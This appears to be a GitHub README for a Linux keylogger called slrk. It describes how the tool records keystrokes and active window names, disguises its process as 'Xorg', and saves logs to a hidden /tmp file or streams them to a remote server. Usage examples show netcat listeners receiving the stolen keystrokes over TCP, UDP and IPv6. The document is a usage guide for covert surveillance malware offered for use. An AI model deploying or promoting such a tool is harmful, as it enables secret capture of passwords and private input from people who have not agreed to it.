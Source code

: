 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			          If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			            It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
